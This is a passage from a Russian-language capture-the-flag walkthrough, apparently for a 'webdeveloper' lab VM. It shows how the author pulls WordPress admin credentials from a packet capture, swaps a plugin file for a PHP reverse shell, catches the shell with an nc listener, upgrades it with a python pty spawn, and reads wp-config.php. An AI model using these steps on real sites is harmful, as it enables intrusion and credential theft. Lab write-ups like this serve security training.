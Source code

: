 ```html
==> DIRECTORY: http://192.168.56.116/wp-includes/                              
+ http://192.168.56.116/xmlrpc.php (CODE:405|SIZE:42)
```

>Нестандартная папка, в ней лежит файл с расширением .cap, откроем его с помощью wireshark. В одном из пакетов можно найти запрос к админке, в котором указаны логин и пароль. Подсказка - нужно искать POST запрос.

```html
Form item: "log" = "webdeveloper"
Form item: "pwd" = "Te5eQg&4sBS!Yr**********"
```

>Войдем в админку и сразу переходим во вкладку плагины. Чтобы получить шелл, нам нужно поставить уязвимый плагин. Изначально я скачал архив "reflex gallery 3.1.3", загрузил его и использовал metasploit (подробнее можно почитать в райтапе к машине "Ha-wordy"), но никак не выходило получить сеанс meterpreter. Тогда я распаковал архив с плагином и заменил содержимое файла reflex-gallery.php на php-reverse-shell.php(не забудь указать свой адрес в файле, вместо 127.0.0.1). Шелл можно найти с помощью команды:

>locate php-reverse-shell.php

>Снова заархивировал папку с плагином и загрузил ее. Заранее включим слушатель:

```html
root@kali:~# nc -lvp 1234
```

>И обратимся по адресу загруженного файла reflex-gallery.php:

>http://192.168.56.116/wp-content/upgrade/reflex-gallery-shell/reflex-gallery.php

>Иногда это занимает секунду, иногда больше:

```html
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
192.168.56.116: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.109] from (UNKNOWN) [192.168.56.116] 44012
Linux webdeveloper 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 13:15:11 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@webdeveloper:/$
```

>Идем дальше:

```html 
www-data@webdeveloper://var/www/html$ cat wp-config.php

/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
```